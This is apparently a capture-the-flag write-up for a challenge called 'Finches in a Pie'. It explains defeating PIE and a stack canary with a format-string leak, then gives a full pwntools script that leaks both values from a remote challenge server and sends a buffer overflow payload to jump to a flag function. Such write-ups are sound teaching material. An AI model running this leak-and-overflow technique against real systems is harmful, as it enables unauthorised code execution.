 # Finches in a Pie

Very similar to FIAS, so I won't explain the parts about a stack canary.

This time, there's PIE.

What changes? What changes is that the address of our ever-so-important flag function changes every time, as PIE randomises the base of the binary.

What we need to do is leak a value on the stack that we can calculate the binary base from.

We're in luck. When a function is called, the address of the instruction for it to ret to is placed on the top of the stack.

This means if the value isn't later overwritten, the addresses of some instructions, including instructions of functions of the binary, will remain on the stack.

Thus we can leak an instruction of a function in the binary, and calculate the base off of this.

I chose stack item 3, the address of the instruction in say\_hi after it calls the pc\_get\_thunk function. Our exploit:

Leak canary and binary base in one go with format string Send junk + canary + junk + flag address Script below:

```python
from pwn import *
import re
e = ELF("./fiap")
#p = e.process()
p = remote('95.216.233.106',22951)
p.clean()
leak = "%3$p.%11$p"
p.sendline(leak)
output = p.recvline().decode()
leaks = re.findall("Thank you, (.*)!", output)[0].split('.')
leaks = list(map(lambda x: int(x,16), leaks)) 
e.address = leaks[0] -  0x0000128f
canary = leaks[1]
log.info(f"Binary base: {hex(e.address)}")
log.info(f"Canary: {hex(canary)}")
padding = b'A' * 25
payload = flat(padding, canary, b'A' * 12, e.symbols['flag'])
p.sendline(payload)
p.interactive()
```

